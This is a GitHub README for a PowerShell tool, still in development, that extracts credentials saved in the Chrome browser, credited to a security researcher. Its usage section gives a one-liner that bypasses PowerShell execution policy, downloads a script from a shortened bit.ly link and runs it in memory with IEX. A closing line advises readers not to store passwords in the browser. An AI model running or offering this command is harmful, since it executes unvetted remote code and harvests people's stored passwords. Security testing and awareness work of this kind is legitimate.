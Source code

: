# credgrap_crhome
## Still in Dev Mode!

Content:      Extract stored credentials from Chrome

Author:       Florian Hansemann | @HanseSecure | https://hansesecure.de

Source:       Chrome extraction imported from https://github.com/sekirkity/BrowserGather (project seems dead)

Modification: Chrome Credential extraction fixed and cookie extraction deleted (buggy)

Date:          04/2018

ToDos:         Fixing Username and URL-Regex

## Usage
powershell -nop -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString(‘http://bit.ly/2FcJJ3k’)"

## Recommendation

Don't save any passwords within your browser and use password safes ;-)
